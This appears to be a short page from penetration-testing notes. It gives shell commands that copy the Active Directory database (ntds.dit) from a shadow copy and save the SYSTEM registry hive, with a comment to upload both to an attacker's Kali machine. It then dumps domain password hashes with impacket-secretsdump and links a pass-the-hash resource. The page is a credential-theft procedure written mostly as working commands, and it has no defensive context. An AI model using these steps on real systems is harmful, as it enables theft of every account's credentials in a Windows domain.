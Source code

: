 ```shell

# 2 Copy to C:\ 
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak


# 3 Backup the SYSTEM hive
reg.exe save hklm\system c:\system.bak


# 4 Upload to KALI


# 5 KALI
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

# *resources*
```shell
# https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/
```